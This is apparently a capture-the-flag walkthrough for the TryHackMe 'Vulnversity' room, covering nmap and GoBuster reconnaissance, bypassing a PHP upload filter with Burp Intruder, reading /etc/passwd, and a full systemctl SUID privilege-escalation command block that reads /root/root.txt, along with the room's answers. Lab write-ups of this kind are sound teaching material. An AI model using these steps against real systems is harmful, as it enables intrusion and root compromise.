


# [Vulnversity][5]
Learn about active recon, web app attacks and privilege escalation.

#### [TASK 2] Reconnaissance

Nmap Cheatsheet -> https://www.stationx.net/nmap-cheat-sheet/

Run the command `nmap -A <IP>` > [CHECK THE SCAN RESULT][1]

Scan the box, how many ports are open? **6**

What version of the squid proxy is running on the machine? **3.5.12**

How many ports will nmap scan if the flag *-p-400* was used? **400** <br>
> *-400* means start scanning from port 1 and scan till 400. To know more check [Nmap - Port Specification][2].

Using the nmap flag *-n* what will it not resolve? **DNS**

What is the most likely operating system this machine is running? **Ubuntu**


What port is the web server running on? **3333**

Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

> - It is always good idea to check for vulnerability. To do that run `nmap --script=vuln <IP>`
- Try **SSH** as port 22 is open and running OpenSSH. To do that run `ssh <IP>`
- Check the **website** as there is HTTP port. To do that, go to `<IP>:3333`.   


#### [TASK 3] Locating directories using GoBuster

Let's start with a GoBuster Directory scan. Command and the location of wordlist is given. There are a lot of wordlist to choose from but for the sake of this room *small.txt* from *dirb* directory will enough.



What is the directory that has an upload form page? **/internal/**

> Try to access all the directory and BAAM! */internal* has a upload page. If none of this would have worked, try other wordlist like *common.txt*. Also, **recursive** option can be used. DirBuster GUI version can be used too.

#### [TASK 4] Compromise the webserver

Try upload a few file types to the server, what common extension seems to be blocked? **.php**

1. Intercept the request as show and send it to **Intruder**.
2. **Clear** variables and select ***.\<file_formart>*** and click on **Add**.
3. Under **Payloads** option, Load the *phpext.txt*. Make sure to uncheck **Payload Encoding**.
4. Click on **Start Attack**. Check the **Length** variable, one has a different length.



Run this attack, what extension is allowed? **.phtml**

Follow the remote access steps. After uploading the file.

What is the name of the user who manages the webserver? **bill**
> To get the name, check /etc/psswd file. To do that, type `cat /etc/passwd` and you will see the name bill as a user.

What is the user flag?
> As we know *bill* is the user. Direct to /home/bill. Type, `cd /home/bill`. There is a file called **user.txt**. Check the content of the file using `cat user.txt`.

#### [TASK 5] Privilege Escalation

On the system, search for all SUID files. What file stands out? **/bin/systemctl**

> To find SUIDs on a system, run `find / -perm -u=s -type f 2>/dev/null`. To know more, [Click Here][3]

Become root and get the last flag (/root/root.txt)
> Run this commands
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
The data from the file *root.txt* is copied to a file called *output* in *tmp* directory.
`cat /tmp/output`. To know more, Check this [Reference][4]


[1]: https://gist.github.com/abhi-agrawl/87aa4e87f999c7ff3fc99e7a8d0e665e
[2]: https://www.hackhunt.in/2021/02/nmap-port-specification.html
[3]: https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
[4]: https://gtfobins.github.io/gtfobins/systemctl/
[5]: https://tryhackme.com/room/vulnversity
